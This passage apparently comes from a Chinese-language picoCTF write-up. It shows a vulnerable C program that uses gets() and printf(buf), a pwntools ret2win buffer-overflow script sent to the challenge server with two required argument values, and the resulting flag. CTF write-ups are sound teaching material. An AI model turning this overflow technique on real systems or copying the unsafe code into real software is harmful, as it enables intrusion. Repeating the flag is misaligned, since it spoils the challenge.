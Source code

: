 ```c
  printf(buf);
}

void vuln()
{
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv)
{

  setvbuf(stdout, NULL, _IONBF, 0);

  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

這次和前面那題差不多，也是個 ret2win，但是它多了一個檢查條件，要判斷 arg1 和 arg2 的值是否為 0xCAFEF00D 和 0xF00DF00D，所以在構造 ROP Chain 的時候要記得把這兩個的值串接上去。接下來就開始編寫 Exploit 吧。

```python
from pwn import *

r = remote("saturn.picoctf.net", 56229)

payload = b""
offset = 112
win_addr = 0x08049296
arg1 = 0xCAFEF00D
arg2 = 0xF00DF00D

# p32(win_addr) is the return address for vuln() function
# p32(0) is the return address for win() function to make the program execute normally
payload += b"A" * offset + p32(win_addr) + p32(0) + p32(arg1) + p32(arg2)
r.sendline(payload)
r.interactive()
```

至於為甚麼中間要多加一個 p32(0)，我直接寫在註解中了。

```txt
picoCTF{argum3nt5_4_d4yZ_3c04eab0}
```

# two-sum
